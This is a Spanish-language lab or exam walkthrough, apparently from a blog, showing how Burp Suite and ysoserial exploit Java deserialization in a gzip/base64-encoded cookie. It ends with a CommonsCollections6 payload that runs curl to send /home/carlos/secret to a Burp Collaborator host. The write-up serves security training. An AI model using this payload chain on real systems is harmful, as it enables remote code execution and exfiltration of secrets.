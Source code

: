 <div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613164032.png' | relative_url }}" text-align="center"/>
</div>

Primero llevamos a cabo un "Manual testing", seteamos el "Set Insertion point" subrayando la cookie de admin_pref

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613164632.png' | relative_url }}" text-align="center"/>
</div>

Y seguidamente ponemos que es un objeto comprimido en gzip, que luego se encodea en base64 y luego en URL:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613164702.png' | relative_url }}" text-align="center"/>
</div>

Los resultados que aparecen a la izquierda nos informa de posibles vulnerabilidades:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613164738.png' | relative_url }}" text-align="center"/>
</div>

En Apache CommonsCollections3.

Así, vamos a la pestaña exploiting de la propia herramienta y repetimos los pasos: Configuramos la cookie como punto de inyección y seteamos la secuencia de codificación GZip > Base64 > URL.

En esta pestaña podremos emplear el payload a enviar a través de Ysoserial definiendo el tipo de objeto (CommonsCollection1, 2, etc) y el comando a ejecutar. En este caso, para estar seguros de que el payload se ejcuta vamos a intentar hacer una conexión con un sistema bajo nuestro control, esto es, un host con BurpCollaborator para asegurarnos de que se ejecuta nuestro payload:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613165116.png' | relative_url }}" text-align="center"/>
</div>

Al probarlo con CommonsCollections1 no funciona, seguimos probando hasta el CommonsCollection6, entonces:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613165251.png' | relative_url }}" text-align="center"/>
</div>

Así, terminamos empleando el siguiente comando a modo de payload en la sección de "Exploiting":

```bash
CommonsCollections6 'curl --data @/home/carlos/secret axbbfl7fa1w5zuw5zgf77qg6yx4nsc.oastify.com'
```

Lanzamos el ataque y vemos que en nuestro burp collaborator hay un HTTP request con el contenido del fichero:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613165706.png' | relative_url }}" text-align="center"/>
</div>

Lo emitimos como solución y abríamos terminado la primera app del examen.




